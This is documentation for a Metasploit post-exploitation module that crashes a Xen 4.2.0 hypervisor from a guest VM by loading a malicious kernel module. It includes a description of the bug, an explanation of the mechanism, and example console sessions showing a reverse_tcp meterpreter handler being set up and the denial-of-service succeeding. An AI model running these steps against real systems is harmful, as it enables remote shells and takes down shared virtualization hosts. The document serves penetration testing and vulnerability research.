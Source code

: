 This is a post exploitation module that exploits a memory corruption bug in Xen
4.2.0, causing a denial-of-service against the hypervisor from a guest VM. From
the original advisory:

> Downgrading the grant table version of a guest involves freeing its
status pages. This freeing was incomplete - the page(s) are freed back
to the allocator, but not removed from the domain's tracking
list. This would cause list corruption, eventually leading to a
hypervisor crash.

## Mechanism

This module aims to be portable by building the exploit module on the target
machine directly, building a malicious Linux Kernel Module (LKM) and inserting it
into the kernel of the paravirtualized host. It is necessary to build the
kernel module on the fly, since kernel ABIs are notoriously unstable and
unlikely to work between multiple kernel versions.

This module is tested on Debian and Ubuntu hosts running various versions of
Xen. Because the LKM is built at exploit-time, it requires that build tools and
kernel headers for the currently-running kernel to exist on the target machine.

## Example output

Failure (bad Xen version):

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.1
lhost => 192.168.1.1
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.1.1:4444
[*] Starting the payload handler...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.1.1
[*] Meterpreter session 1 opened (192.168.1.1:4444 -> 192.168.1.2:43488) at 2016-07-13 00:27:31 -0500

meterpreter >
meterpreter > background
[*] Backgrounding session 1...
msf exploit(handler) > use post/linux/dos/xen_420_dos
msf post(xen_420_dos) > set session -1
session => -1
msf post(xen_420_dos) > run

[*] Detecting requirements...
[+] Detected root privilege
[+] Detected build-essential
[+] Detected Xen
[+] Detected running Xen
[*] Xen Version: 4.6.0
[-] Sorry, wrong Xen Version
[*] Post module execution completed
```

Success:

```
msf post(xen_420_dos) > run

[*] Detecting requirements...
[+] Detected root privilege
[+] Detected build-essential
[+] Detected Xen
[+] Detected running Xen
[*] Xen Version: 4.2.0
[-] Detected correct Xen version
[*] DoS was successful!
[*] Post module execution completed
[*] 192.168.1.2 - Command shell session 1 closed.  Reason: Died from EOFError
```

## Future Work

A kernel module compilation mixin that works like the Dynamic Kernel Module
Support (DKMS) framework, would be useful in order to allow other kernel-level
exploits to be built as-needed. Supporting this using the Metasploit Post
Exploitation API and supporting more Linux distributions would make similar
exploits easier to build.
